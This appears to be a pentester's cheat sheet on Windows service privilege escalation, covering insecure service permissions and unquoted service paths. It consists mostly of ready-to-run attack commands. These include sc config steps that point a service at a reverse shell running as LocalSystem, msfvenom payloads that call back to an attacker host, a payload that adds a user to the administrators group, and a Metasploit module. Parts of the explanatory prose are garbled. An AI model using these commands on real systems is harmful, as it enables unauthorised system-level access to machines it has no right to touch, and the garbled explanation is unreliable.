 ## Insecure Service permissions
```powershell
accesschk.exe /accepteula -uwcqv <user> <service> # sysinternals
sc qc <service>
sc config <service> binpath= "pathtoreverseshell.exe" obj= LocalSystem
net start <service>
# Or
sc stop <service>
sc start <service>
```
With powershell use:
```powershell
sc.exe # sc is Set-Content!
```
Use the correct format with msfvenom `-f exe-service`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=4445 -f exe-service -o rev-svc.exe
```

## Unquoted Service Path

Attack then levages the algorithm that search for mapped relevant services additional alternate interpretable locations and between non-explicitly declared file paths with whitespace. Unquoted service path are forgotten because developers forget extra `"`s that dont end up in the registry.  If unquoted the path is then parsed as if the path ends in an executable accepting arguments.
Requires: 
1. Write permissions to a `service`'s main directory tree, but cannot replace files within the tree. 
2. The path to the service must contain `whitespace` character like third party software directory `\Program Files\Insert Your Software\Service Location\here.exe`; 

Developers must ensure the that paths containing spaces are enclosed in quotation marks otherwise the path is interpretered by the search algorithm. Enumerate either with:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
```
[[Meterpreter-Commands]]
```msfconsole
use exploit/windows/local/trusted_service_path
```
[[PowerSploit-Helpsheet]]
```powershell
sc qc <unquotedsvc> # Query a service that has BINARY_PATH_NAME that is UNQUOTED AND CONTAINS SPACES
icacls <.exe>
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" # sysinternals
```

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=4444 -f exe-service -o svc-exe.exe
```
